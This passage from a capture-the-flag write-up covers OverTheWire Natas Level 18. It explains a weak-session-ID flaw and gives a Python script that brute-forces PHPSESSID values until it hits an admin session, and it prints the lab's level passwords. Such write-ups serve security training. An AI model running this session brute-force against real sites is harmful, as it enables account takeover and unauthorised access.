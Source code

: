 

#### Password: `6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ`

---

### Level 18: Weak Session Management

- **Commands/Tools Introduced:** Session Management, Weak Session Tokens

#### Solution Outline:
1. **Understanding the Challenge:**
   At first, it looks like a simple SQLi challenge, but the real vulnerability lies in the session management. We start by looking at the source code, but no luck in understanding the system. Next we look at Burp Suite to intercept the request and see the request. 

2. **Exploiting the Vulnerability:**
    We notice that the session ID is a weak number. We try brute-forcing the session ID and find the password.

3. **Automating the Process:**
    I came up with a Python script that iterates through the session ID and extracts the password.
    ```python
    import requests

    target = "http://natas18.natas.labs.overthewire.org"
    auth = ("natas18", "6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ")
    params = {"username": "natas18", "password": "admin"}

    max_s_id = 640
    s_id = 1
    while s_id <= max_s_id:
        print("Trying with PHPSESSID = " + str(s_id))
        cookies = {"PHPSESSID": str(s_id)}
        r = requests.get(target, auth=auth, params=params, cookies=cookies)

        if "You are an admin" in r.text:
            print(r.text)
            break

        s_id += 1
    ```

#### Password: `tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr`

![Level 18 Progress](images/natas18.png)
---
